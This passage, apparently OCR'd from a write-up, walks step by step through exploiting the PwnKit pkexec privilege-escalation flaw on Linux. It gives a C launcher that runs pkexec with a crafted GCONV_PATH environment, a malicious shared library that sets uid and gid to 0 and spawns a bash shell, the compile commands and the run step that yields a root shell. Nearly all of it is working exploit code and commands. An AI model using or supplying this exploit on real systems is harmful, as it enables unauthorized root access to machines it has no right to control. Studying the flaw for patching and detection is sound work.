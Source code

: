 ```bash
-rwsr-xr-x 1 root root 103432 /usr/bin/pkexec
```

### 2.3 Exploitation Process

#### Step 1: Prepare Exploit Code (Launcher)

```c
#include <unistd.h>

int main(int argc, char **argv) {
    char * const args[] = { NULL };
    char * const envp[] = {
        "pwnkit.so:.",
        "PATH=GCONV_PATH=.",
        "CHARSET=PWNKIT",
        "SHELL=/invalid",
        NULL
    };
    execve("/usr/bin/pkexec", args, envp);
}
```

#### Step 2: Prepare Malicious Library

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

#### Step 3: Compile Payload

```bash
gcc exploit.c -o exploit
gcc -shared -fPIC -o pwnkit.so payload.c
```

Ensure a `gconv-modules` file exists (can be empty) in the current directory.

#### Step 4: Execute Exploit

```bash
./exploit
```

Once executed, a root shell is spawned.

